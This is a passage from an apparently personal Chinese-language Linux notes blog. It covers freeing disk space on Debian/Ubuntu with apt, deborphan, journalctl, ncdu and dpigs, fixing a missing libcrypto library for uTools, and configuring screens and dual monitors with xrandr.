class="number">5.10</span><span class="number">.127</span><span class="number">-2</span>                       amd64        Linux <span class="number">5.10</span> <span class="keyword">for</span> <span class="number">64</span>-bit PCs (signed)</span><br><span class="line">rc  linux-image<span class="number">-5.10</span><span class="number">.0</span><span class="number">-17</span>-amd64                   <span class="number">5.10</span><span class="number">.136</span><span class="number">-1</span>                       amd64        Linux <span class="number">5.10</span> <span class="keyword">for</span> <span class="number">64</span>-bit PCs (signed)</span><br><span class="line">rc  linux-image<span class="number">-5.10</span><span class="number">.0</span><span class="number">-18</span>-amd64                   <span class="number">5.10</span><span class="number">.140</span><span class="number">-1</span>                       amd64        Linux <span class="number">5.10</span> <span class="keyword">for</span> <span class="number">64</span>-bit PCs (signed)</span><br><span class="line">rc  linux-image<span class="number">-5.10</span><span class="number">.0</span><span class="number">-19</span>-amd64                   <span class="number">5.10</span><span class="number">.149</span><span class="number">-2</span>                       amd64        Linux <span class="number">5.10</span> <span class="keyword">for</span> <span class="number">64</span>-bit PCs (signed)</span><br><span class="line">rc  linux-image<span class="number">-5.10</span><span class="number">.0</span><span class="number">-20</span>-amd64                   <span class="number">5.10</span><span class="number">.158</span><span class="number">-2</span>                       amd64        Linux <span class="number">5.10</span> <span class="keyword">for</span> <span class="number">64</span>-bit PCs (signed)</span><br><span class="line">rc  linux-perf                                    <span class="number">5.10</span><span class="number">.162</span><span class="number">-1</span>                       amd64        Performance analysis tools <span class="keyword">for</span> Linux (meta-package)</span><br><span class="line">rc  live-tools                                    <span class="number">1</span>:<span class="number">20190831</span>                       all          Live System Extra Components</span><br><span class="line">rc  net.cnki.cajviewer                            <span class="number">1.0</span><span class="number">.3</span><span class="number">.0</span>                          amd64        Small epic script that prints some stuff(<span class="number">20210225</span> on UOS)</span><br><span class="line">rc  php-common                                    <span class="number">2</span>:<span class="number">76</span>                             all          Common files <span class="keyword">for</span> PHP packages</span><br><span class="line">rc  php7<span class="number">.4</span>-cli                                    <span class="number">7.4</span><span class="number">.33</span><span class="number">-1</span>+deb11u1                 amd64        command-line <span class="built_in">int</span>erpreter <span class="keyword">for</span> the PHP scripting language</span><br><span class="line">rc  php7<span class="number">.4</span>-common                                 <span class="number">7.4</span><span class="number">.33</span><span class="number">-1</span>+deb11u1                 amd64        documentation, examples <span class="keyword">and</span> common module <span class="keyword">for</span> PHP</span><br><span class="line">rc  php7<span class="number">.4</span>-fpm                                    <span class="number">7.4</span><span class="number">.33</span><span class="number">-1</span>+deb11u1                 amd64        server-side, HTML-embedded scripting language (FPM-CGI binary)</span><br><span class="line">rc  php7<span class="number">.4</span>-json                                   <span class="number">7.4</span><span class="number">.33</span><span class="number">-1</span>+deb11u1                 amd64        JSON module <span class="keyword">for</span> PHP</span><br><span class="line">rc  php7<span class="number">.4</span>-opcache                                <span class="number">7.4</span><span class="number">.33</span><span class="number">-1</span>+deb11u1                 amd64        Zend OpCache module <span class="keyword">for</span> PHP</span><br><span class="line">rc  php7<span class="number">.4</span>-readline                               <span class="number">7.4</span><span class="number">.33</span><span class="number">-1</span>+deb11u1                 amd64        readline module <span class="keyword">for</span> PHP</span><br><span class="line">rc  thunderbird                                   <span class="number">1</span>:<span class="number">102.9</span><span class="number">.0</span><span class="number">-1</span>~deb11u1              amd64        mail/news client with RSS, chat <span class="keyword">and</span> <span class="built_in">int</span>egrated spam filter support</span><br><span class="line">rc  user-setup                                    <span class="number">1.88</span>                             all          Set up initial user <span class="keyword">and</span> password</span><br><span class="line">rc  vim-tiny                                      <span class="number">2</span>:<span class="number">8.2</span><span class="number">.2434</span><span class="number">-3</span>+deb11u1             amd64        Vi IMproved - enhanced vi editor - compact version</span><br><span class="line">rc  virtualbox<span class="number">-6.1</span>                                <span class="number">6.1</span><span class="number">.38</span><span class="number">-153438</span>~Debian~bullseye    amd64        Oracle VM VirtualBox</span><br></pre></td></tr></table></figure>
<h4 id="Autoclean清理APT没有用的deb软件安装包"><a href="#Autoclean清理APT没有用的deb软件安装包" class="headerlink" title="Autoclean清理APT没有用的deb软件安装包"></a>Autoclean清理APT没有用的deb软件安装包</h4><p>通常我们用sudo apt-get install 命令安装软件包后，apt-get下载的deb安装包会保留在系统上．所以如果你经常安装软件，那么这些deb安装包会占据大量的空间．这些安装包在/var/cache/apt/archives目录下。在软件安装完成后，这些deb安装包就没什么用了。对于硬盘容量有限的服务器来说apt-get clean命令可以腾出很多空间。</p>
<p>你可以输入下面的命令来查看/var/chace/apt/archives目录下deb安装包的总大小：<code>du -sh /var/cache/apt/archives</code></p>
<figure class="highlight awk"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="number">632</span>M	<span class="regexp">/var/</span>cache<span class="regexp">/apt/</span>archives</span><br></pre></td></tr></table></figure>
<p>清除：<code>sudo apt-get clean</code> 和 <code>sudo apt-get autoclean</code></p>
<h4 id="Autoremove删除孤儿软件包（自动安装）"><a href="#Autoremove删除孤儿软件包（自动安装）" class="headerlink" title="Autoremove删除孤儿软件包（自动安装）"></a>Autoremove删除孤儿软件包（自动安装）</h4><p>有时候，你用apt-get安装一个软件包时会自动安装其他的依赖．当你删除掉这个软件包时，这些依赖也就没有用处了．这些没有用的依赖包叫做孤儿软件包，可以用下面的命令删除：<code>sudo apt-get autoremove</code></p>
<p>不过apt-get autoremove只会删除经apt-get自动安装的依赖包，而你自己手动安装的依赖包则不会被删除，这时我们可以用deborphan来彻底删除．</p>
<p>安装：<code>sudo apt-get install deborphan</code></p>
<p>列出：<code>deborphan</code></p>
<p>删除：<code>deborphan | xargs sudo apt-get purge -y</code></p>
<h4 id="清理日志文件"><a href="#清理日志文件" class="headerlink" title="清理日志文件"></a>清理日志文件</h4><p>1.直接使用<code>journalctl --disk-usage</code>查看日志大小，然后使用<code>sudo journalctl --vacuum-time=3d</code>删除</p>
<p>2.日志文件会变得越来越大，我们可以用ncdu工具来查看大日志文件</p>
<p><code>sudo apt-get install ncdu</code></p>
<p><code>sudo ncdu /var/log</code></p>
<p>清空日志（我在想RM删除掉会不会好些？）：<code>sudo dd if=/dev/null of=/var/log/shadowsocks.log</code></p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br></pre></td><td class="code"><pre><span class="line">ncdu <span class="number">1.15</span><span class="number">.1</span> ~ Use the arrow keys to navigate, press ? <span class="keyword">for</span> help                                                                                                               </span><br><span class="line">--- /var/log ----------------------------------------------------------------------------------------------------------------------------------------------------------------</span><br><span class="line">    <span class="number">2.1</span> GiB [##########] /journal                                                                                                                                            </span><br><span class="line">   <span class="number">17.6</span> MiB [          ] /installer</span><br><span class="line">    <span class="number">6.5</span> MiB [          ] /cups</span><br><span class="line">    <span class="number">2.6</span> MiB [          ] /sysstat</span><br><span class="line">    <span class="number">1.8</span> MiB [          ] /timeshift</span><br><span class="line">  <span class="number">992.0</span> KiB [          ]  anydesk.trace</span><br><span class="line">  <span class="number">900.0</span> KiB [          ]  bootstrap.log</span><br><span class="line">  <span class="number">848.0</span> KiB [          ]  syslog</span><br><span class="line">  <span class="number">820.0</span> KiB [          ]  syslog<span class="number">.1</span></span><br><span class="line">  <span class="number">628.0</span> KiB [          ]  syslog<span class="number">.3</span>.gz</span><br><span class="line">  <span class="number">560.0</span> KiB [          ]  messages<span class="number">.1</span></span><br><span class="line">  <span class="number">540.0</span> KiB [          ]  syslog<span class="number">.2</span>.gz</span><br><span class="line">  <span class="number">524.0</span> KiB [          ]  messages</span><br><span class="line">  <span class="number">428.0</span> KiB [          ]  messages<span class="number">.3</span>.gz</span><br><span class="line">  <span class="number">380.0</span> KiB [          ]  messages<span class="number">.2</span>.gz</span><br><span class="line">  <span class="number">380.0</span> KiB [          ]  kern.log<span class="number">.1</span></span><br><span class="line">  <span class="number">360.0</span> KiB [          ] /apt</span><br><span class="line">  <span class="number">348.0</span> KiB [          ] /ipp-usb</span><br><span class="line">  <span class="number">340.0</span> KiB [          ]  syslog<span class="number">.4</span>.gz</span><br><span class="line">  <span class="number">320.0</span> KiB [          ]  kern.log<span class="number">.3</span>.gz</span><br><span class="line">  <span class="number">320.0</span> KiB [          ]  daemon.log</span><br><span class="line">  <span class="number">276.0</span> KiB [          ]  kern.log</span><br><span class="line">  <span class="number">264.0</span> KiB [          ]  ufw.log<span class="number">.1</span></span><br><span class="line">  <span class="number">260.0</span> KiB [          ]  user.log</span><br><span class="line">  <span class="number">252.0</span> KiB [          ]  kern.log<span class="number">.2</span>.gz</span><br></pre></td></tr></table></figure>
<h4 id="删除过时的软件包"><a href="#删除过时的软件包" class="headerlink" title="删除过时的软件包"></a>删除过时的软件包</h4><blockquote>
<p><a href="https://www.linuxdashen.com/debianubuntu%E6%B8%85%E7%90%86%E7%A1%AC%E7%9B%98%E7%A9%BA%E9%97%B4%E7%9A%848%E4%B8%AA%E6%8A%80%E5%B7%A7" target="_blank" rel="noopener">https://www.linuxdashen.com/debianubuntu%E6%B8%85%E7%90%86%E7%A1%AC%E7%9B%98%E7%A9%BA%E9%97%B4%E7%9A%848%E4%B8%AA%E6%8A%80%E5%B7%A7</a></p>
</blockquote>
<p>所谓过时（obsolete）的软件包是指<strong>/etc/apt/sources.list</strong>源文件中没有任何一个软件源提供这个软件的deb安装包．也就是说这个软件包在软件源里找不到了，不被支持了．这可能是因为下面几个原因：</p>
<ul>
<li>上游开发者不维护这个软件，又没有人来接管这个软件的开发．所以Debian/Ubuntu的软件包维护人员决定将这个软件从软件源中删除．</li>
<li>这个软件成了孤儿，同时用户很少．所以它就从软件源里消失了．</li>
<li>这个软件有了一个新的名字，维护人员给它起了一个新的名字并保留旧软件包．</li>
</ul>
<p>因为这些过时的软件不会有安全更新了，而且搞不好会在软件升级过程中引来麻烦，所以我们需要将它们删除．首先找出哪些软件包是过时的</p>
<figure class="highlight excel"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">sudo aptitude <span class="built_in">search</span> ?obsolete</span><br></pre></td></tr></table></figure>
<p>我的输出结果</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">i linux-image<span class="number">-3.2</span><span class="number">.0</span><span class="number">-29</span>-generic - Linux kernel image <span class="keyword">for</span> version <span class="number">3.2</span><span class="number">.0</span> on <span class="number">64</span></span><br></pre></td></tr></table></figure>
<p>将它删除</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">sudo apt-<span class="keyword">get</span> purge linux-image<span class="number">-3.2</span><span class="number">.0</span><span class="number">-29</span>-generic</span><br></pre></td></tr></table></figure>
<p>你也可以使用下面的命令将所有过时的软件包一下清除</p>
<figure class="highlight nginx"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attribute">sudo</span>  aptitude purge ~o</span><br></pre></td></tr></table></figure>
<p>不过需要注意的是，有些软件包虽然在软件源里找不到，但它并不是过时的软件包．比如你自己下载安装的ubuntu-tweak．ubuntu-tweak需要你从官网下载deb安装包，但不提供软件源．用上面这条命令会将这类软件包也删除．所以我建议使用apt-get purge，自己选择需要删除的软件包．</p>
<h4 id="删除大容量软件包"><a href="#删除大容量软件包" class="headerlink" title="删除大容量软件包"></a>删除大容量软件包</h4><p><a href="https://wiki.debian.org/DiskFreeSpace" target="_blank" rel="noopener">https://wiki.debian.org/DiskFreeSpace</a></p>
<p>以大小递增的顺序列出包：</p>
<p><code>aptitude -F &#39;%I %p&#39; search &#39;~i&#39;|egrep &#39;^[0-9]+[\.,]?[0-9]* [MG]B&#39;|sort -n</code></p>
<p>首先安装debian-goodies</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">sudo apt-<span class="builtin-name">get</span> install debian-goodies</span><br></pre></td></tr></table></figure>
<p>然后输入下面的命令</p>
<figure class="highlight ebnf"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attribute">dpigs -H</span></span><br></pre></td></tr></table></figure>
<p>我的输出结果</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line"><span class="number">441.0</span>M texlive-latex-extra-doc</span><br><span class="line"><span class="number">230.1</span>M valgrind-dbg</span><br><span class="line"><span class="number">200.6</span>M chromium-browser</span><br><span class="line"><span class="number">171.4</span>M google-chrome-stable</span><br><span class="line"><span class="number">153.4</span>M linux-image-extra<span class="number">-3.19</span><span class="number">.0</span><span class="number">-39</span>-generic</span><br><span class="line"><span class="number">153.4</span>M linux-image-extra<span class="number">-3.19</span><span class="number">.0</span><span class="number">-37</span>-generic</span><br><span class="line"><span class="number">151.5</span>M maltego</span><br><span class="line"><span class="number">144.8</span>M wine1<span class="number">.7</span>-amd64</span><br><span class="line"><span class="number">140.6</span>M metasploit-framework</span><br><span class="line"><span class="number">137.4</span>M wine1<span class="number">.7</span>-i386</span><br></pre></td></tr></table></figure>
<p>接下来你就可以删除你不用的软件包了．上面的命令默认只会显示前10个结果，你可指定结果的个数，比如20个</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">dpigs -H <span class="attribute">--lines</span>=20</span><br></pre></td></tr></table></figure>
<h4 id="反向查看依赖关系"><a href="#反向查看依赖关系" class="headerlink" title="反向查看依赖关系"></a>反向查看依赖关系</h4><p>安装：apt-rdepends</p>
<h4 id="重复文件查找工具"><a href="#重复文件查找工具" class="headerlink" title="重复文件查找工具"></a>重复文件查找工具</h4><blockquote>
<p><a href="https://www.pixelbeat.org/fslint/?ref=itsfoss.com" target="_blank" rel="noopener">https://www.pixelbeat.org/fslint/?ref=itsfoss.com</a></p>
<p><a href="https://github.com/adrianlopezroche/fdupes?ref=itsfoss.com" target="_blank" rel="noopener">https://github.com/adrianlopezroche/fdupes?ref=itsfoss.com</a></p>
</blockquote>
<p><a href="https://itsfoss.com/find-duplicate-files-linux/" target="_blank" rel="noopener">https://itsfoss.com/find-duplicate-files-linux/</a></p>
<p><code>sudo apt install fdupes</code></p>
<h4 id="弃用-使用ubuntu-tweak来清理"><a href="#弃用-使用ubuntu-tweak来清理" class="headerlink" title="(弃用)使用ubuntu-tweak来清理"></a><del>(弃用)使用ubuntu-tweak来清理</del></h4><p><code>sudo apt-get install gdebi</code></p>
<p><code>sudo gdebi ubuntu-tweak*.deb</code></p>
<p>其他清理工具：<a href="https://github.com/oguzhaninan/Stacer/releases?ref=itsfoss.com" target="_blank" rel="noopener">https://github.com/oguzhaninan/Stacer/releases?ref=itsfoss.com</a></p>
<h4 id="分区扩容"><a href="#分区扩容" class="headerlink" title="分区扩容"></a>分区扩容</h4><p><a href="https://www.cnblogs.com/jrri/p/16591351.html" target="_blank" rel="noopener">https://www.cnblogs.com/jrri/p/16591351.html</a></p>
<p>uTools<code>Error: libcrypto.so.1.1</code>: 关于ubuntu22.04打开utools报错 提示缺少libcrypto.so.1.1</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">Manjaro 下的修复方法参考：</span><br><span class="line">    下载 openssl<span class="number">-1.1</span>，得到文件 openssl<span class="number">-1.1</span><span class="number">-1.1</span><span class="number">.1</span>.s<span class="number">-2</span>-x86_64.pkg.tar.zst;</span><br><span class="line">    解压文件 tar xpvf openssl<span class="number">-1.1</span><span class="number">-1.1</span><span class="number">.1</span>.s<span class="number">-2</span>-x86_64.pkg.tar.zst;</span><br><span class="line">    移动 libcrypto.so<span class="number">.1</span><span class="number">.1</span> 到 uTools 安装目录 sudo cp usr/lib/libcrypto.so<span class="number">.1</span><span class="number">.1</span> /opt/uTools/</span><br></pre></td></tr></table></figure>
<p>我的解决方案：</p>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">sudo find / -name <span class="string">"libcrypto*"</span> -print</span><br><span class="line">/<span class="regexp">/output</span></span><br><span class="line"><span class="regexp">/snap</span><span class="regexp">/core18/</span><span class="number">2620</span>/usr/<span class="class"><span class="keyword">lib</span>/<span class="title">x86_64</span>-<span class="title">linux</span>-<span class="title">gnu</span>/<span class="title">libcrypto</span>.<span class="title">so</span>.1.1</span></span><br><span class="line">/snap/core20/<span class="number">1695</span>/usr/<span class="class"><span class="keyword">lib</span>/<span class="title">x86_64</span>-<span class="title">linux</span>-<span class="title">gnu</span>/<span class="title">libcrypto</span>.<span class="title">so</span>.1.1</span></span><br><span class="line">/snap/core20/<span class="number">1587</span>/usr/<span class="class"><span class="keyword">lib</span>/<span class="title">x86_64</span>-<span class="title">linux</span>-<span class="title">gnu</span>/<span class="title">libcrypto</span>.<span class="title">so</span>.1.1</span></span><br><span class="line">/usr/<span class="class"><span class="keyword">lib</span>/<span class="title">x86_64</span>-<span class="title">linux</span>-<span class="title">gnu</span>/<span class="title">libcrypto</span>.<span class="title">so</span>.3</span></span><br></pre></td></tr></table></figure>
<p>发现WPS中就有，所以直接复制：<code>sudo cp /opt/kingsoft/wps-office/office6/libcrypto.so.1.1 /opt/uTools/</code></p>
<h4 id="du报告目录树使用的硬盘空间"><a href="#du报告目录树使用的硬盘空间" class="headerlink" title="du报告目录树使用的硬盘空间"></a><code>du</code>报告目录树使用的硬盘空间</h4><p>你可以将 <code>du</code>(8) 的输出传输给 <code>xdu</code>(1x)，来使用它的图形交互式演示，例如 “<code>du -k . |xdu</code>”、“<code>sudo du -k -x / |xdu</code>” 等等。</p>
<figure class="highlight jboss-cli"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">du -sh <span class="string">./</span>*</span><br></pre></td></tr></table></figure>
<p>或者  </p>
<figure class="highlight stata"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">du -<span class="keyword">sh</span> `<span class="keyword">la</span>`</span><br></pre></td></tr></table></figure>
<p> 挺好用的。</p>
<h3 id="Xrandr-控制屏幕输出"><a href="#Xrandr-控制屏幕输出" class="headerlink" title="Xrandr 控制屏幕输出"></a>Xrandr 控制屏幕输出</h3><figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line">xrandr 是用于与 X RandR 扩展进行交互的命令行工具。它允许对 X<span class="built_in"> server </span>进行实时配置（即无需重新启动即可使配置生效），xrandr 提供了显示模式（如分辨率、刷新率等）的自动检测，以及动态配置输出（如调整大小、旋转、移动屏幕等）的功能。</span><br><span class="line"><span class="comment"># 将屏幕恢复到原来的分辨率</span></span><br><span class="line">xrandr -s 0</span><br><span class="line"></span><br><span class="line"><span class="comment">#设置具体分辨率</span></span><br><span class="line">xrandr -s 1024x768</span><br><span class="line"></span><br><span class="line"><span class="comment"># 旋转屏幕</span></span><br><span class="line">xrandr -o left     # 向左旋转90度</span><br><span class="line">xrandr -o right    # 向右旋转90度</span><br><span class="line">xrandr -o inverted # 上下翻转</span><br><span class="line">xrandr -o normal   # 回到正常角度</span><br></pre></td></tr></table></figure>
<h3 id="关于Linux分屏（转载）"><a href="#关于Linux分屏（转载）" class="headerlink" title="关于Linux分屏（转载）"></a>关于Linux分屏（转载）</h3><p>原文地址：<a href="https://www.cnblogs.com/Jesuca/archive/2012/02/24/2366940.html" target="_blank" rel="noopener">https://www.cnblogs.com/Jesuca/archive/2012/02/24/2366940.html</a></p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br></pre></td><td class="code"><pre><span class="line">Ubuntu <span class="number">8.04</span> 设置笔记本电脑双显示器</span><br><span class="line"></span><br><span class="line">目录：</span><br><span class="line"><span class="number">1</span>、设置显示分辨率及 xrandr 介绍</span><br><span class="line"><span class="number">2</span>、GNOME下切换双屏的方法</span><br><span class="line"><span class="number">3</span>、关于双屏下 GNOME面板/ wine / 阿里旺旺的一些问题及解决</span><br><span class="line"></span><br><span class="line">正文：</span><br><span class="line"><span class="number">1</span>、设置显示分辨率及 xrandr 介绍</span><br><span class="line">   X Windows 中有一个显示分辨率的概念，在默认情况下，这个显示分辨率为 max*max ，max等于你的所有连接上的显示器中最大分辨率中的最大值。例如我的笔记本液晶屏最大分辨率为 <span class="number">1024</span>*<span class="number">768</span>，外接显示器最大分辨率为 <span class="number">1280</span>*<span class="number">1024</span>，则默认的显示分辨率为 <span class="number">1280</span>*<span class="number">1280</span>。如果我设置左右双屏且使用最大分辨率，那么总显示分辨率就会达到<span class="number">2304</span>*<span class="number">1024</span>，达到超出系统默认的大小。在这种情况下强行设置 双屏幕，就会导致 X 进入超低分辨率，结果不得不手工重设 xrog.conf 来恢复。</span><br><span class="line">  为了更好检测这个问题，我们需要用到　xrandr 这个软件，xrandr系统已经自带，如果没有请安装x11-xserver-utils：sudo apt-<span class="keyword">get</span> install x11-xserver-utils 。</span><br><span class="line">  不带参数执行xrandr能够列出当前的显示设备和每个设备支持的模式。Screen代表了总显示区域，VGA代表显示器，LVDS代表笔记本液晶屏。</span><br><span class="line"></span><br><span class="line">Screen <span class="number">0</span>: minimum <span class="number">320</span> x <span class="number">200</span>, current <span class="number">1280</span> x <span class="number">768</span>, maximum <span class="number">1280</span> x <span class="number">1280</span></span><br><span class="line">VGA connected (normal left inverted right x axis y axis)</span><br><span class="line">   <span class="number">1280</span>x1024      <span class="number">75.0</span> +   <span class="number">69.8</span>     <span class="number">59.9</span>  </span><br><span class="line">   <span class="number">1024</span>x768       <span class="number">75.1</span>     <span class="number">70.1</span>     <span class="number">60.0</span>  </span><br><span class="line">   <span class="number">800</span>x600        <span class="number">72.2</span>     <span class="number">75.0</span>     <span class="number">60.3</span>  </span><br><span class="line">   <span class="number">640</span>x480        <span class="number">75.0</span>     <span class="number">72.8</span>     <span class="number">65.4</span>     <span class="number">60.0</span>  </span><br><span class="line">   <span class="number">720</span>x400        <span class="number">70.1</span>  </span><br><span class="line">LVDS connected <span class="number">1024</span>x768+<span class="number">0</span>+<span class="number">0</span> (normal left inverted right x axis y axis) <span class="number">246</span>mm x <span class="number">184</span>mm</span><br><span class="line">   <span class="number">1024</span>x768       <span class="number">50.0</span>*+   <span class="number">60.0</span>     <span class="number">40.0</span>  </span><br><span class="line">   <span class="number">800</span>x600        <span class="number">60.3</span>  </span><br><span class="line">   <span class="number">640</span>x480        <span class="number">60.0</span>     <span class="number">59.9</span>  </span><br><span class="line"></span><br><span class="line">  系统默认显示分辨率为 <span class="number">1280</span>x1280，而在左右扩展双屏情况下VGA和LVDS支持的最小分辨率加在一起都超过这个数字，当然会导致 X 进入超低分辨率了。如果感兴趣，可以用以下命令尝试把外接显示器打开并设置为右侧扩展屏幕（不用sudo）来验证一下： xrandr --output VGA --<span class="built_in">auto</span> --right-of LVDS</span><br><span class="line">系统会出错，提升说屏幕大小超出限制。</span><br><span class="line"></span><br><span class="line">  解决方法：手工修改xorg.conf，在Section <span class="string">"Screen"</span>中添加一行 Virtual <span class="number">2304</span> <span class="number">1024</span></span><br><span class="line"></span><br><span class="line">Section <span class="string">"Screen"</span></span><br><span class="line">   Identifier <span class="string">"Default Screen"</span></span><br><span class="line">   Monitor <span class="string">"Configured Monitor"</span></span><br><span class="line">   Device <span class="string">"Configured Video Device"</span></span><br><span class="line">   SubSection <span class="string">"Display"</span></span><br><span class="line">      Virtual <span class="number">2304</span> <span class="number">1024</span></span><br><span class="line">   EndSubSection</span><br><span class="line">EndSection</span><br><span class="line"></span><br><span class="line">注意：Ubuntu <span class="number">8.04</span>中的xorg.conf已经非常精简，Subsection <span class="string">"Display"</span> 可能要自己添加，别忘记 EndSubSection</span><br><span class="line"></span><br><span class="line">我设置好以后的xrandr命令输入如下：</span><br><span class="line">$ xrandr</span><br><span class="line">Screen <span class="number">0</span>: minimum <span class="number">320</span> x <span class="number">200</span>, current <span class="number">1024</span> x <span class="number">768</span>, maximum <span class="number">2304</span> x <span class="number">1024</span></span><br><span class="line">VGA connected (normal left inverted right x axis y axis)</span><br><span class="line">....</span><br><span class="line">LVDS connected <span class="number">1024</span>x768+<span class="number">0</span>+<span class="number">0</span> (normal left inverted right x axis y axis) <span class="number">246</span>mm x <span class="number">184</span>mm</span><br><span class="line">....</span><br><span class="line"></span><br><span class="line">  现在应该没问题了，用刚才的命令打开双屏后，</span><br><span class="line">$ xrandr</span><br><span class="line">Screen <span class="number">0</span>: minimum <span class="number">320</span> x <span class="number">200</span>, current <span class="number">2304</span> x <span class="number">1024</span>, maximum <span class="number">2304</span> x <span class="number">1024</span></span><br><span class="line">VGA connected <span class="number">1280</span>x1024+<span class="number">1024</span>+<span class="number">0</span> (normal left inverted right x axis y axis) <span class="number">340</span>mm x <span class="number">270</span>mm</span><br><span class="line">...</span><br><span class="line">LVDS connected <span class="number">1024</span>x768+<span class="number">0</span>+<span class="number">0</span> (normal left inverted right x axis y axis) <span class="number">246</span>mm x <span class="number">184</span>mm</span><br><span class="line">...</span><br><span class="line"></span><br><span class="line">  其实这个显示分辨率完全可以设置高一些，比如我就设置成<span class="number">4000</span> x <span class="number">2000</span>，如果连接到最大分辨率为<span class="number">1920</span>x1200的外接显示器，也不用重新设置 xorg.conf 了。</span><br><span class="line"></span><br><span class="line">  xrandr 命令行可以很方便地切换双屏，常用方式如下，其他的可以自己探索：</span><br><span class="line">xrandr --output VGA --same-as LVDS --<span class="built_in">auto</span></span><br><span class="line">         打开外接显示器(最高分辨率)，与笔记本液晶屏幕显示同样内容（克隆）</span><br><span class="line">xrandr --output VGA --same-as LVDS --mode <span class="number">1024</span>x768</span><br><span class="line">         打开外接显示器(分辨率为<span class="number">1024</span>x768)，与笔记本液晶屏幕显示同样内容（克隆）</span><br><span class="line">xrandr --output VGA --right-of LVDS --<span class="built_in">auto</span></span><br><span class="line">         打开外接显示器(最高分辨率)，设置为右侧扩展屏幕</span><br><span class="line">xrandr --output VGA --off</span><br><span class="line">          关闭外接显示器</span><br><span class="line">xrandr --output VGA --<span class="built_in">auto</span> --output LVDS --off</span><br><span class="line">        打开外接显示器，同时关闭笔记本液晶屏幕（只用外接显示器工作）</span><br><span class="line">xrandr --output VGA --off --output LVDS --<span class="built_in">auto</span></span><br><span class="line">        关闭外接显示器，同时打开笔记本液晶屏幕 (只用笔记本液晶屏)</span><br><span class="line">（最后两种情况请小心操作，不要误把两个屏幕都关掉了。。。。）</span><br><span class="line"></span><br><span class="line"><span class="number">2</span>、GNOME下切换双屏的方法</span><br><span class="line">   用命令行毕竟不方便，幸好我们还有许多 X 下的工具可用：</span><br><span class="line">  GNOME 